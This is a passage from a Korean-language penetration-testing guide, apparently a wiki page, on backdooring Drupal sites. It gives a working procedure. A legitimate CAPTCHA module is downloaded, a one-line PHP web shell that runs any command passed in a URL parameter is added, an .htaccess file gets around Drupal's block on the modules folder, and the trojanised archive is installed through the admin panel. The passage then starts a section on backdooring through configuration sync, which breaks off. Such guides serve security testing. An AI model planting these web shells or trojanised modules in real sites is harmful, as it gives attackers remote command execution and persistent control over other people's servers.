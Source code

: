 백도어 모듈은 **기존 모듈에 쉘을 추가하여** 생성할 수 있습니다. 모듈은 drupal.org 웹사이트에서 찾을 수 있습니다. [CAPTCHA](https://www.drupal.org/project/captcha)와 같은 모듈을 선택해 보겠습니다. 아래로 스크롤하여 tar.gz [아카이브](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz)의 링크를 복사합니다.

* 아카이브를 다운로드하고 내용을 추출합니다.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* **PHP 웹 셸**을 다음 내용으로 생성합니다:
```php
<?php
system($_GET["cmd"]);
?>
```
* 다음으로, 폴더에 대한 접근 권한을 부여하기 위해 **`.htaccess`** 파일을 생성해야 합니다. 이는 Drupal이 **`/modules`** 폴더에 대한 직접 접근을 거부하기 때문에 필요합니다.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* 위의 구성은 /modules에서 파일을 요청할 때 / 폴더에 대한 규칙을 적용합니다. 이 두 파일을 captcha 폴더에 복사하고 아카이브를 만듭니다.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* 웹사이트에 **관리자 접근** 권한이 있다고 가정할 때, 사이드바에서 **`Manage`**를 클릭한 다음 **`Extend`**를 클릭합니다. 다음으로 **`+ Install new module`** 버튼을 클릭하면 `http://drupal-site.local/admin/modules/install`과 같은 설치 페이지로 이동합니다. 백도어가 있는 Captcha 아카이브로 이동하여 **`Install`**을 클릭합니다.
* 설치가 성공하면 **`/modules/captcha/shell.php`**로 이동하여 명령을 실행합니다.

## 구성 동기화를 통한 Drupal 백도어 <a href="#backdooring-drupal" id="backdooring-drupal"></a>

**게시물 공유자** [**Coiffeur0x90**](https://twitter.com/Coiffeur0x90)

### 1부 (_Media_ 및 _Media Library_ 활성화)

_Extend_ 메뉴 (/admin/modules)에서 이미 설치된 플러그인으로 보이는 항목을 활성화할 수 있습니다. 기본적으로 플러그인 _Media_ 및 _Media Library_는 활성화되지 않은 상태이므로 이를 활성화하겠습니다.

활성화 전:

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
